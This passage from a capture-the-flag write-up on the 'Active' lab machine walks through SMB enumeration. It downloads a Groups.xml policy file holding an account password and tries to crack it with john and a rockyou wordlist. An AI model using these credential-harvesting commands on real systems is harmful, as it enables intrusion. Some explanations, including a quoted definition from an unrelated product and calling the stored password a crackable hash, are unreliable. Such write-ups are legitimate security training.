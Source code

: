 <br />
<img src="{{ site.img_path }}/active_writeup/Active_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

As there is a lot of information to dig into I'm going to set up a **CIFS mount**, so I can access the files as if they were on my local file system but for some reason it won't allow me to do so, most likely because I don't have valid credentials. If I use `smbclient` to reconnect via **SMB** protocol, I can enumerate manually even if it takes me much longer. I get lucky and find the **Groups.xml** file that I download to my machine to analyze. I try using `smbmap` to perform the same action and **it does let me this time** access the resources and even download the **XML** file, so far **I don't know what my previous error was**. In the content of the **Groups.xml** file I find the password hash of the **SVC_TGS** account, but if I try a brute force attack with `john` I can't crack it.

> **[Groups XML file](https://docs.e-spirit.com/odfs/edocs/admi/user-permission/configuration/configuring-ser/groups-xml-file/index.html){:target="_blank"}** (**groups.xml**): The **groups.xml** group file where groups are defined is available by default. It needs to be introduced to the permission service configuration file **service.ini** by using the **NAME.path** parameter and can be edited in **FirstSpirit ServerMonitoring**.

```bash
mkdir SMBActive
mount -t cifs //10.10.10.100/Replication /mnt/SMBActive
mount -t cifs //10.10.10.100/Replication /mnt/SMBActive -o username='null',password='null',domain='ACTIVE.HTB',r
mount -t cifs //10.10.10.100/Replication /mnt/SMBActive -o username='null',password='null',domain='WORKGROUP',rw
mount -t cifs //10.10.10.100/Users /mnt/SMBActive
mount -t cifs //10.10.10.100/Users /mnt/SMBActive -o username='null',password='null',domain='WORKGROUP',rw
mount -t cifs //10.10.10.100/Users /mnt/SMBActive -o username='null',password='null',domain='ACTIVE.HTB',rw

smbclient //10.10.10.100/Replication -N
  cd \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\
  prompt off
  mget Groups.xml

ncat Groups.xml

smbmap -H 10.10.10.100 --no-banner -r Replication/
...
smbmap -H 10.10.10.100 --no-banner -r Replication/active.htb/policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Machine/Preferences/Groups

mv 10.10.10.100-Replication_active.htb_policies_\{31B2F340-016D-11D2-945F-00C04FB984F9\}_Machine_Preferences_Groups_Groups.xml Groups.xml

nvim hash
john -w=$(locate rockyou.txt)
john -w=/usr/share/wordlists/rockyou.txt hash
```
